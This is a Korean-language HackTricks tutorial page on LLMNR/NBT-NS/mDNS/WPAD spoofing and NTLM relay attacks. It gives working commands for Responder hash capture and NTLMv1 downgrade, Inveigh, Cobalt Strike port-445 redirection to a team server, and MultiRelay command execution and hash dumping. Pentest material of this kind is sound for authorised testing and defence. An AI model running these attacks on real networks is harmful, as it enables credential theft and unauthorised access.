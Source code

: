 # LLMNR, NBT-NS, mDNS/DNS 및 WPAD 스푸핑 및 릴레이 공격

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## 네트워크 프로토콜

### 로컬 호스트 해상도 프로토콜
- **LLMNR, NBT-NS 및 mDNS**:
- Microsoft 및 다른 운영 체제는 DNS가 실패할 때 로컬 이름 해상도를 위해 LLMNR 및 NBT-NS를 사용합니다. 비슷하게, Apple 및 Linux 시스템은 mDNS를 사용합니다.
- 이러한 프로토콜은 UDP를 통해 인증되지 않은 브로드캐스트 방식으로 가로채고 스푸핑될 수 있습니다.
- [Responder](https://github.com/lgandx/Responder)를 사용하여 이러한 프로토콜을 쿼리하는 호스트에 대한 위조된 응답을 보내어 서비스를 위장할 수 있습니다.
- Responder를 사용한 서비스 위장에 대한 자세한 정보는 [여기](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)에서 찾을 수 있습니다.

### 웹 프록시 자동 검색 프로토콜 (WPAD)
- WPAD는 브라우저가 프록시 설정을 자동으로 찾을 수 있게 합니다.
- DNS 또는 DHCP를 통해 검색이 용이하며, DNS가 실패하면 LLMNR 및 NBT-NS로 대체됩니다.
- Responder를 사용하여 WPAD 공격을 자동화하여 클라이언트를 악의적인 WPAD 서버로 유도할 수 있습니다.

### 프로토콜 독립성을 위한 Responder
- **Responder**는 LLMNR, NBT-NS 및 mDNS 쿼리를 독립적으로 응답하는 도구로, 주로 SMB 서비스를 대상으로 적응적으로 응답합니다.
- Kali Linux에 미리 설치되어 있으며, `/etc/responder/Responder.conf`에서 구성할 수 있습니다.
- Responder는 캡처된 해시를 화면에 표시하고 `/usr/share/responder/logs` 디렉토리에 저장합니다.
- IPv4 및 IPv6를 모두 지원합니다.
- Responder의 Windows 버전은 [여기](https://github.com/lgandx/Responder-Windows)에서 사용할 수 있습니다.

#### Responder 실행
- 기본 설정으로 Responder 실행: `responder -I <Interface>`
- 더 공격적인 프로빙을 위한 실행 (부작용 가능): `responder -I <Interface> -P -r -v`
- NTLMv1 챌린지/응답을 캡처하여 쉽게 크래킹하기 위한 기술: `responder -I <Interface> --lm --disable-ess`
- WPAD 위장을 활성화하려면: `responder -I <Interface> --wpad`
- NetBIOS 요청을 공격자의 IP로 해결하고 인증 프록시를 설정할 수 있습니다: `responder.py -I <interface> -Pv`

### Responder를 사용한 DHCP 독립성
- DHCP 응답을 스푸핑하여 피해자의 라우팅 정보를 영구적으로 독립시킬 수 있으며, ARP 스푸핑에 대한 은밀한 대안을 제공합니다.
- 대상 네트워크 구성에 대한 정확한 지식이 필요합니다.
- 공격 실행: `./Responder.py -I eth0 -Pdv`
- 이 방법은 효과적으로 NTLMv1/2 해시를 캡처할 수 있지만, 네트워크 방해를 피하기 위해 주의 깊게 다뤄야 합니다.

### Responder를 사용한 자격 캡처
- Responder는 상기 프로토콜을 사용하여 서비스를 위장하고 사용자가 위조된 서비스에 인증을 시도할 때 자격 증명(일반적으로 NTLMv2 챌린지/응답)을 캡처합니다.
- NetNTLMv1로 다운그레이드하거나 쉬운 자격 증명 크래킹을 위해 ESS를 비활성화하려는 시도를 할 수 있습니다.

이러한 기술을 적법하고 윤리적으로 사용하고 적절한 승인을 받아 네트워크 방해나 무단 접근을 피하는 것이 중요합니다.

## Inveigh

Inveigh는 Windows 시스템용으로 설계된 펜 테스터 및 레드 팀을 위한 도구입니다. Responder와 유사한 기능을 제공하며 스푸핑 및 중간자 공격을 수행합니다. 이 도구는 PowerShell 스크립트에서 C# 이진 파일로 진화했으며, 주요 버전으로 [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) 및 [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero)가 있습니다. 자세한 매개변수 및 지침은 [**위키**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)에서 찾을 수 있습니다.

Inveigh는 PowerShell을 통해 작동할 수 있습니다:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
또는 C# 이진 파일로 실행됩니다:
```bash
Inveigh.exe
```
### NTLM 릴레이 공격

이 공격은 SMB 인증 세션을 활용하여 대상 컴퓨터에 액세스하여 성공하면 시스템 쉘을 부여합니다. 주요 전제 조건은 다음과 같습니다:
- 인증하는 사용자는 중골 관리자 액세스 권한이 있어야 합니다.
- SMB 서명이 비활성화되어 있어야 합니다.

#### 445 포트 포워딩 및 터널링

직접적인 네트워크 연결이 불가능한 시나리오에서는 포트 445의 트래픽을 전달하고 터널링해야 합니다. [**PortBender**](https://github.com/praetorian-inc/PortBender)와 같은 도구는 포트 445 트래픽을 다른 포트로 리디렉션하는 데 도움이 되며, 이는 로컬 관리자 액세스가 드라이버 로딩에 사용 가능한 경우 필수적입니다.

Cobalt Strike에서 PortBender 설정 및 작동:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM 릴레이 공격을 위한 다른 도구

- **Metasploit**: 프록시, 로컬 및 원격 호스트 세부 정보로 설정합니다.
- **smbrelayx**: SMB 세션을 릴레이하고 명령을 실행하거나 백도어를 배포하는 Python 스크립트입니다.
- **MultiRelay**: 특정 사용자 또는 모든 사용자를 릴레이하고 명령을 실행하거나 해시를 덤프하는 Responder 스위트의 도구입니다.

각 도구는 필요한 경우 SOCKS 프록시를 통해 작동하도록 구성할 수 있어 간접적인 네트워크 액세스로도 공격을 수행할 수 있습니다.

### MultiRelay 작동

MultiRelay는 _**/usr/share/responder/tools**_ 디렉토리에서 실행되며 특정 IP 또는 사용자를 대상으로 합니다.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### NTLM Relay 공격을 수행하기 위한 포괄적인 세트를 형성하는 이러한 도구와 기술들이 있습니다.

### NTLM 로그인 강제

Windows에서 **일부 특권 계정을 임의의 기기에 인증하도록 강제할 수 있을 수 있습니다**. 다음 페이지를 읽어보고 방법을 배우세요:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## 참고 자료
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}
